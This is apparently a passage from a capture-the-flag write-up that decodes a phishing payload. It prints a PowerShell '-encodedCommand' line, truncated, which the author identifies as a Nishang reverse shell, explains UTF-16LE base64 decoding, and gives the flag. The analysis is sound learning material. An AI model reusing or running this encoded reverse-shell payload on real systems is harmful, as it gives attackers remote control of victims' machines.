VUp3UVVkWlFVbEJRVzlCUTFGQlZXZENiRUZJV1VGYVVVSjVRVWhOUVZwUlFYQkJRVEJCUTJkQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJaWGRCVGtGQmIwRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVwQlFtcEJSM2RCWVZGQ2JFRkhORUZrUVVGblFVUXdRVWxCUWs5QlIxVkJaSGRCZEVGRk9FRlpaMEp4UVVkVlFWbDNRakJCUTBGQlZYZENOVUZJVFVGa1FVSnNRVWN3UVV4blFrOUJSMVZCWkVGQmRVRkdUVUZpZDBKcVFVZHpRVnBSUWpCQlNFMUJUR2RDVlVGRlRVRlZRVUpFUVVkM1FXRlJRbXhCUnpSQlpFRkJiMEZEVVVGVFVVSlJRVVZGUVZwQlFtdEJTRWxCV2xGQ2VrRklUVUZNUVVGclFVWkJRV0ozUW5sQlNGRkJTMUZCVGtGQmIwRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZJTUVGRVVVRkxRVUV3UVVOblFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVWwzUWtOQlIydEJZbWRDYTBGRFFVRmtRVUoyUVVOQlFXUkJRbTlCUjFWQlNVRkNkMEZJU1VGaWQwSXlRVWRyUVZwQlFteEJSMUZCU1VGQ2QwRkhPRUZqWjBJd1FVTkJRV0ZSUW0xQlEwRkJVV2RDY0VGSE5FRmFRVUZuUVVoTlFXUjNRbkJCU0ZGQldYZENiMEZEUVVGaFVVSjZRVU5CUVdSUlFucEJSMVZCV2tGQmRVRkJNRUZEWjBGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRmhVVUp0UVVOQlFVdEJRV3RCUlVsQllWRkNkVUZIVVVGTFVVRk9RVUZ2UVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVaHpRVVJSUVV0QlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEVVVGaVFVSndRVWhOUVdSQlFteEJSelJCV2xGQ2VVRkRRVUZRVVVGblFVWnpRVlYzUWpWQlNFMUJaRUZDYkVGSE1FRk1aMEpQUVVkVlFXUkJRWFZCUmsxQlluZENha0ZIYzBGYVVVSXdRVWhOUVV4blFsVkJSMDFCWTBGQ1RVRkhhMEZqZDBJd1FVZFZRV0puUW14QlNFbEJXRkZCYTBGR1FVRmlkMEo1UVVoUlFVUlJRVXRCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRVVUZpUVVKd1FVaE5RV1JCUW14QlJ6UkJXbEZDZVVGRE5FRmpkMEl3UVVkRlFXTm5RakJCUTJkQlMxRkJaMEZEUVVGSlFVRm5RVUV3UVVOblFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCYTBGSFRVRmlRVUp3UVVkVlFXSm5RakJCUTBGQlVGRkJaMEZEVVVGaVFVSndRVWhOUVdSQlFteEJSelJCV2xGQ2VVRkRORUZSVVVKcVFVZE5RVnBSUW5kQlNGRkJWa0ZDYWtGSVFVRlJkMEp6UVVkclFWcFJRblZCU0ZGQlMwRkJjRUZCTUVGRFowRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZtVVVGblFVRXdRVU5uUVU1QlFXOUJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTFGQlkzZENNRUZJU1VGYVVVSm9RVWN3UVVsQlFUbEJRMEZCU2tGQ2FrRkhkMEZoVVVKc1FVYzBRV1JCUVhWQlJXTkJXbEZDTUVGR1RVRmtRVUo1UVVkVlFWbFJRblJCUTJkQlMxRkJUa0ZCYjBGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkdjMEZaWjBJMVFVaFJRVnBSUW1KQlJqQkJXRkZCYTBGSFNVRmxVVUl3UVVkVlFXTjNRV2RCUkRCQlNVRkJkMEZETkVGTVowRXlRVVJWUVU1UlFYcEJSRlZCWmtGQmJFRkljMEZOUVVJNVFVRXdRVU5uUVU1QlFXOUJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTAxQlZYZENiRUZITkVGYVFVRm5RVWRKUVZsUlFtcEJSM05CU1VGQ2FrRklWVUZqWjBKNVFVZFZRV0puUWpCQlEwRkJaRkZDZWtGSFZVRmpaMEoxUVVkRlFXSlJRbXhCUTBGQldWRkNkVUZIVVVGSlFVSnFRVWM0UVdKUlFuZEJTRlZCWkVGQ2JFRklTVUZpWjBKb1FVY3dRVnBSUVU1QlFXOUJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTFGQlkzZENiRUZITkVGYVFVSnBRVWhyUVdSQlFteEJTRTFCU1VGQk9VRkRRVUZMUVVKaVFVaFJRVnBSUWpSQlNGRkJUR2RDYkVGSE5FRlpkMEoyUVVkUlFXRlJRblZCUjJOQldGRkJOa0ZFYjBGUlVVSlVRVVZOUVZOUlFrcEJRMnRCVEdkQ1NFRkhWVUZrUVVKRFFVaHJRV1JCUW14QlNFMUJTMEZCYVVGR1kwRmhVVUoxUVVkUlFXSjNRak5CU0UxQlNVRkNVVUZIT0VGa2QwSnNRVWhKUVZWM1FtOUJSMVZCWWtGQ2MwRkRRVUZqWjBJeFFVYzBRV0puUW5CQlJ6UkJXbmRCWjBGSFJVRmpkMEZuUVVoVlFXTjNRbXhCU0VsQlNVRkJhVUZEUVVGTGQwRm5RVU5SUVZwUlFuVkJTRmxCVDJkQ01VRklUVUZhVVVKNVFVYzBRVmxSUW5SQlIxVkJTVUZCY2tGRFFVRkpaMEZuUVVjNFFXSm5RV2RCUTBsQlNVRkJja0ZEUVVGS1FVSnNRVWMwUVdSblFUWkJSMDFCWW5kQ2RFRklRVUZrVVVJd1FVZFZRV05uUW5WQlIwVkJZbEZDYkVGRFFVRkxkMEZuUVVOSlFWbEJRblZCUlUxQlluZENkMEZJYTBGalowSndRVWRqUVdGQlFqQkJRMEZCUzBGQ1JFRkRhMEZKUVVGNVFVUkJRVTFSUVRGQlEwRkJWRkZDY0VGSFRVRmpaMEoyUVVoTlFXSjNRbTFCU0ZGQlNVRkNSRUZIT0VGalowSjNRVWM0UVdOblFtaEJTRkZCWVZGQ2RrRkhORUZNWjBGblFVVkZRV0pCUW5OQlEwRkJZMmRDY0VGSFkwRmhRVUl3UVVoTlFVbEJRbmxCUjFWQlkzZENiRUZJU1VGa1owSnNRVWRSUVV4blFtZEJSelJCV1VGQ2RVRkRTVUZMVVVGT1FVRnZRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOUlFXTjNRakJCU0VsQldsRkNhRUZITUVGTVowSllRVWhKUVdGUlFqQkJSMVZCUzBGQmEwRklUVUZhVVVKMVFVZFJRVmxuUWpWQlNGRkJXbEZDZWtGRGQwRk5RVUZ6UVVOUlFXTjNRbXhCUnpSQldrRkNhVUZJYTBGa1FVSnNRVWhOUVV4blFrMUJSMVZCWW1kQ2JrRklVVUZoUVVGd1FVRXdRVU5uUVU1QlFXOUJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTAxQlZYZENiMEZIT0VGa2QwRm5RVWRGUVdKblFXZEJSMnRCWW1kQ01FRkhWVUZqWjBKb1FVZE5RV1JCUW5CQlNGbEJXbEZCWjBGR1FVRmlkMEl6UVVkVlFXTm5RbFJCUjJkQldsRkNjMEZIZDBGSlFVSjNRVWhKUVdKM1FuUkJTRUZCWkVGQlRrRkJiMEZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFVVRmpkMEpzUVVjMFFWcEJRbWxCU0d0QlpFRkNiRUZJVFVGSlFVRTVRVU5CUVV0QlFtSkJTRkZCV2xGQ05FRklVVUZNWjBKc1FVYzBRVmwzUW5aQlIxRkJZVkZDZFVGSFkwRllVVUUyUVVSdlFWRlJRbFJCUlUxQlUxRkNTa0ZEYTBGTVowSklRVWRWUVdSQlFrTkJTR3RCWkVGQ2JFRklUVUZMUVVGdVFVWkJRVlYzUVdkQlEyTkJTVUZCY2tGRFFVRkxRVUpJUVVkVlFXUkJRWFJCUlhkQlluZENha0ZIUlVGa1FVSndRVWM0UVdKblFYQkJRelJCVlVGQ2FFRklVVUZoUVVGblFVTnpRVWxCUVc1QlJEUkJTbmRCY0VGQk1FRkRaMEZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGS1FVSjZRVWhSUVdOblFteEJSMFZCWWxGQmRVRkdZMEZqWjBKd1FVaFJRVnBSUVc5QlExRkJZM2RDYkVGSE5FRmFRVUpwUVVoclFXUkJRbXhCU0UxQlRFRkJkMEZEZDBGS1FVSjZRVWRWUVdKblFtdEJSMGxCWlZGQ01FRkhWVUZqZDBGMVFVVjNRVnBSUW5WQlIyTkJaRUZDYjBGRGEwRkVVVUZMUVVFd1FVTm5RV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVdSM1FtOUJSMnRCWWtGQ2JFRkRaMEZMUVVGclFVZHJRVWxCUVRsQlEwRkJTa0ZDZWtGSVVVRmpaMEpzUVVkRlFXSlJRWFZCUmtsQldsRkNhRUZIVVVGTFFVRnJRVWRKUVdWUlFqQkJSMVZCWTNkQmMwRkRRVUZOUVVGelFVTkJRVXBCUW1sQlNHdEJaRUZDYkVGSVRVRk1aMEpOUVVkVlFXSm5RbTVCU0ZGQllVRkJjRUZEYTBGSlFVRjBRVWMwUVZwUlFXZEJSRUZCUzFGQlRrRkJiMEZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGSWMwRkVVVUZMUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMUZCVWxGQ2RVRkhUVUZpZDBKclFVZFZRVnBCUWxWQlIxVkJaVUZDTUVGRFFVRlFVVUZuUVVVMFFWcFJRak5CUXpCQlZIZENhVUZIYjBGYVVVSnFRVWhSUVVsQlFYUkJSbEZCWlZGQ2QwRkhWVUZVWjBKb1FVY3dRVnBSUVdkQlJrMUJaVkZDZWtGSVVVRmFVVUowUVVNMFFWWkJRbXhCU0dkQlpFRkJkVUZGUlVGVmQwSkVRVVZyUVZOUlFrWkJSelJCV1hkQ2RrRkhVVUZoVVVKMVFVZGpRVVJSUVV0QlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEVVVGYVFVSm9RVWhSUVZsUlFXZEJSREJCU1VGQmEwRkZWVUZpWjBKcVFVYzRRVnBCUW14QlIxRkJWa0ZDYkVGSVowRmtRVUYxUVVWalFWcFJRakJCUmsxQlpFRkNlVUZIYTBGaVowSnVRVU5uUVVwQlFtbEJTR3RCWkVGQ2JFRklUVUZNUVVGM1FVTjNRVWxCUVd0QlIydEJTMUZCVGtGQmIwRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVdSQlFubEJTR3RCUkZGQlMwRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVoelFVUlJRVXRCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVWwzUWtaQlNHZEJXbEZDYWtGSVZVRmtRVUpzUVVOQlFXUkJRbTlCUjFWQlNVRkNha0ZIT0VGaVVVSjBRVWRGUVdKblFtdEJRMEZCWW5kQ2RVRkRRVUZrUVVKdlFVZFZRVWxCUWpCQlIwVkJZMmRDYmtGSFZVRmtRVUYxUVVFd1FVTm5RV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTlJRV04zUW14QlJ6UkJXa0ZDYVVGSFJVRlpkMEp5UVVOQlFWQlJRV2RCUTJkQlUxRkNkVUZJV1VGaWQwSnlRVWRWUVV4UlFrWkJTR2RCWTBGQ2VVRkhWVUZqZDBKNlFVZHJRV0ozUW5WQlEwRkJURkZDUkVGSE9FRmlVVUowUVVkRlFXSm5RbXRCUTBGQlNrRkNhMEZIUlVGa1FVSm9RVU5CUVUxblFTdEJRMWxCVFZGQlowRklkMEZKUVVKUVFVaFZRV1JCUVhSQlJrMUJaRUZDZVVGSGEwRmlaMEp1UVVOQlFVdFJRVTVCUVc5QlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZtVVVGT1FVRnZRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTBGQldYZENhRUZJVVVGWmQwSnZRVUV3UVVOblFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZDTjBGQk1FRkRaMEZuUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkdZMEZqWjBKd1FVaFJRVnBSUVhSQlJtTkJXVkZDZVVGSE5FRmhVVUoxUVVkalFVbEJRV2xCUmsxQlluZENkRUZIVlVGa1FVSnZRVWRyUVdKblFtNUJRMEZCWkhkQ2JFRkhORUZrUVVGblFVaGpRV05uUW5aQlJ6UkJXbmRCWjBGSVkwRmhVVUl3UVVkblFVbEJRbXhCU0dkQldsRkNha0ZJVlVGa1FVSndRVWM0UVdKblFXZEJSemhCV21kQlowRkhUVUZpZDBKMFFVY3dRVmxSUW5WQlIxRkJTVUZDZGtGSE5FRkpRVUl3UVVkblFWcFJRV2RCU0ZGQldWRkNlVUZIWTBGYVVVSXdRVU0wUVVsblFXZEJRVEJCUTJkQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUm1OQlkyZENjRUZJVVVGYVVVRjBRVVZWUVdOblFubEJSemhCWTJkQlowRkRVVUZZZDBGT1FVRnZRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV2RCUTBGQlpsRkJUa0ZCYjBGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVXBCUW5wQlIxVkJZbWRDYTBGSFNVRlpVVUpxUVVkelFVMW5RV2RCUTBGQlVGRkJaMEZEVVVGamQwSnNRVWMwUVZwQlFtbEJSMFZCV1hkQ2NrRkRRVUZMZDBGblFVTmpRVlZCUWxSQlEwRkJTbmRCWjBGRGMwRkpRVUZ2UVVWalFWcFJRakJCUXpCQlZFRkNka0ZIVFVGWlVVSXdRVWRyUVdKM1FuVkJRMnRCVEdkQ1VVRkhSVUZrUVVKdlFVTkJRVXQzUVdkQlEyTkJVR2RCWjBGRFkwRkVVVUZMUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMUZCWlVGQlowRkVNRUZKUVVGdlFVTlJRVnBSUW5sQlNFbEJZbmRDZVVGR2MwRk5RVUprUVVOQlFXWkJRV2RCUlRoQlpGRkNNRUZETUVGVmQwSXdRVWhKUVdGUlFuVkJSMk5CUzFGQlRrRkJiMEZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVcEJRbXhCU0VsQlkyZENka0ZJU1VGTVowSnFRVWQzUVZwUlFtaEJTRWxCUzBGQmNFRkJNRUZEWjBGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV3RCU0UxQldsRkNkVUZIVVVGWlowSm9RVWROUVdGM1FYbEJRMEZCVUZGQlowRkRVVUZqZDBKc1FVYzBRVnBCUW1sQlIwVkJXWGRDY2tGRVNVRkpRVUZ5UVVOQlFVcEJRalJCUVRCQlEyZEJUa0ZCYjBGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVWwzUWxOQlIxVkJaRUZDTVVGSVNVRmlaMEZuUVVoUlFXRkJRbXhCUTBGQlkyZENiRUZJVFVGa1VVSnpRVWhSUVdOM1FVNUJRVzlCU1VGQlowRkRRVUZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRktRVUo2UVVkVlFXSm5RbXRCUjBsQlpWRkNNRUZIVlVGSlFVRTVRVU5CUVV0QlFtSkJTRkZCV2xGQ05FRklVVUZNWjBKc1FVYzBRVmwzUW5aQlIxRkJZVkZDZFVGSFkwRllVVUUyUVVSdlFWRlJRbFJCUlUxQlUxRkNTa0ZEYTBGTVowSklRVWRWUVdSQlFrTkJTR3RCWkVGQ2JFRklUVUZMUVVGclFVaE5RVnBSUW5WQlIxRkJXV2RDYUVGSFRVRmhkMEY1UVVOclFVUlJRVXRCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRVVUZqZDBJd1FVaEpRVnBSUW1oQlJ6QkJUR2RDV0VGSVNVRmhVVUl3UVVkVlFVdEJRV3RCU0UxQldsRkNkVUZIVVVGWlowSTFRVWhSUVZwUlFYTkJSRUZCVEVGQmEwRklUVUZhVVVKMVFVZFJRVmxuUWpWQlNGRkJXbEZCZFVGRmQwRmFVVUoxUVVkalFXUkJRbTlCUTJ0QlJGRkJTMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTlJRV04zUWpCQlNFbEJXbEZDYUVGSE1FRk1aMEpIUVVkM1FXUlJRbnBCUjJkQlMwRkJjRUZEUVVGSlFVRk9RVUZ2UVVsQlFXZEJRMEZCU1VGQlowRkRRVUZKUVVGblFVZ3dRVVJSUVV0QlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRV3RCUjAxQllrRkNjRUZIVlVGaVowSXdRVU0wUVZGM1FuTkJSemhCWTNkQ2JFRkRaMEZMVVVGT1FVRnZRVWxCUVdkQlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVkclFWcG5RV2RCUTJkQlNrRkNjMEZIYTBGamQwSXdRVWRWUVdKblFteEJTRWxCUzFGQlRrRkJiMEZKUVVGblFVTkJRVWxCUVdkQlEwRkJTVUZCWjBGSWMwRkVVVUZMUVVOQlFVbEJRV2RCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFXZEJRMUZCWWtGQ2NFRklUVUZrUVVKc1FVYzBRVnBSUW5sQlF6UkJWWGRDTUVGSE9FRmpRVUZ2UVVOclFVUlJRVXRCUTBGQlNVRkJaMEZEUVVGSlFVRm5RVU5CUVVsQlFqbEJRVEJCUTJkQlowRkRRVUZKUVVGblFVZ3dRVVJSUVV0QlEwRkJTVUZCWjBGRFFVRlpkMEpvUVVoUlFWbDNRbTlCUVRCQlEyZEJaMEZEUVVGSlFVRm5RVWh6UVVSUlFVdEJRMEZCU1VGQlowRkRRVUZKUVVGblFVTkJRVWxCUWxoQlNFbEJZVkZDTUVGSFZVRk1VVUpZUVVkRlFXTm5RblZCUjJ0QlltZENia0ZEUVVGSlowSlVRVWM0UVdKUlFteEJTRkZCWVVGQ2NFRkhORUZhZDBGblFVaGpRVnBSUW5WQlNGRkJTVUZDTTBGSVNVRmlkMEoxUVVkalFVbFJRV2RCUlUxQllVRkNiRUZIVFVGaGQwRm5RVWRyUVZwblFXZEJTRkZCWVVGQ2JFRkRRVUZqZDBKc1FVaEpRV1JuUW14QlNFbEJTVUZDY0VGSVRVRkpRVUo1UVVkVlFWbFJRbXBCUjJkQldWRkNhVUZIZDBGYVVVRm5RVWRGUVdKblFtdEJRMEZCWlZGQ2RrRklWVUZKUVVKb1FVaEpRVnBSUVdkQlNGVkJZM2RDY0VGSE5FRmFkMEZuUVVoUlFXRkJRbXhCUTBGQldYZENka0ZJU1VGalowSnNRVWROUVdSQlFXZEJTRUZCWW5kQ2VVRklVVUZNWjBGcFFVTkJRVVJSUVV0QlEwRkJTVUZCWjBGRFFVRkpRVUZuUVVOQlFVbEJRbGhCU0VsQllWRkNNRUZIVlVGTVVVSkdRVWhKUVdOblFuWkJTRWxCU1VGQmEwRkdPRUZFVVVGTFFVTkJRVWxCUVdkQlEwRkJabEZCVGtGQmIwRm1VVUZPUVVGdlFWTlJRblZCU0ZsQlluZENja0ZIVlVGTVVVSlJRVWM0UVdSM1FteEJTRWxCVlhkQ2IwRkhWVUZpUVVKelFVWlJRVmwzUW5kQlEwRkJURkZDVTBGSFZVRmtaMEpzUVVoSlFXTjNRbXhCUTBGQlRGRkNTa0ZHUVVGUlVVSnJRVWRSUVdOblFteEJTRTFCWTNkQlowRkRZMEZXZDBKT1FVVmpRV1YzUW5kQlIyZEJUVkZDZWtGSFowRk5VVUoxUVVkalFWaDNRbnBCUkdOQlRWRkNUVUZIZDBGWWQwSXpRVVJCUVdOblFuSkJSazFCWmxGQmJrRkRRVUZNVVVKUlFVYzRRV05uUWpCQlEwRkJUa0ZCTUVGRVVVRk9RVUZPUVVGdlFRPT0) to see:

```powershell
powershell.exe "cmd.exe /c 'ipconfig'"
powershell.exe -encodedCommand ZgB1AG4AYwB0AGkAbwBuACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwACAADQAKAHsAIAANAAoAPAAjAA0ACgAuAFMAWQBOAE8AUABTAEkAUwANAAoATgBpAHMAaABhAG4AZwAgAHMAYwByAGkAcAB0ACAAdwBoAGkAYwBoACAAYwBhAG4AIABiAGUAIAB1AHMAZQBkACAAZgBvAHIAIABSAGUAdgBlAHIAcwBlACAAbwByACAAQgBpAG4AZAAgAGkAbgB0AGUAcgBhAGMAdABpAHYAZQAgAFAAbwB3AGUAcgBTAGgAZQBsAGwAIABmAHIAbwBtACAAYQAgAHQAYQByAGcAZQB0AC4AIAANAAoADQAKAC4ARABFAFMAQwBSAEkAUABUAEkATwBOAA0ACgBUAGgAaQBzACAAcwBjAHIAaQBwAHQAIABpAHMAIABhAGIAbABlACAAdABvACAAYwBvAG4AbgBlAGMAdAAgAHQAbwAgAGEAIABzAHQAYQBuAGQAYQByAGQAIABuAGUAdABjAGEAdAAgAGwAaQBzAHQAZQBuAGkAbgBnACAAbwBuACAAYQAgAHAAbwByAHQAIAB3AGgAZQBuACAAdQBzAGkAbgBnACAAdABoAGUAIAAtAFIAZQB2AGUAcgBzAGUAIABzAHcAaQB0AGMAaAAuACAADQAKAEEAbABzAG8ALAAgAGEAIABzAHQAYQBuAGQAYQByAGQAIABuAGUAdABj....
```



So the first command does nothing of interest but there's another encoded command. Powershell encoded command's appear to be base64 however a regular base64 decode doesn't work. This is because powershell encodedcommands are base64 emcpded with UTF-16LE. This can be decoded in a few ways but a [basic online tool](https://raikia.com/tool-powershell-encoder/) gets the job done, producing:



The script is a reverse shell, it does not get executed instantly since it's defining a function, going through the code, right at the bottom is the reverse shell trigger:



which is the flag!

`WMG{ph1sh1ng_s71Ll_w0rkS}`
